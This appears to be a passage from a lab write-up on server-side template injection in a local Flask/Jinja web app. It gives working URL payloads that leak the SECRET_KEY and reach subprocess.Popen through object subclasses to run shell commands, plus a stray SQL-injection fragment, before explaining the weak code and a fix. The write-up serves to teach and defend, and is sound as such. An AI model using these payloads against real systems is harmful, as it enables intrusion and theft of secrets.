 ```' ORDER BY 4 -- //```

![image](static/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e.png)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](static/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a.png)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](static/3b00e088-2795-453d-ae84-925a4d0c3d28.png)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](static/0d2e307a-cb52-4064-af3a-f7c59ddf43f7.png)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](static/b29ae7e0-eeb9-423e-861a-06937e28156c.png)

At this point we have access to ```bash``` commands and we can go some damage to the server.

## Weak code

![image](static/f18d3a42-f402-4011-a008-cafd5530d711.png)

On this line we are calling rendering on category as a template but we never check if category is safe to render().

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template, never a template.

![image](static/f427b211-2250-44d1-a925-e07b80728718.png)

- If we really need to render Category has a template we could also validade that category is something safe to render. 


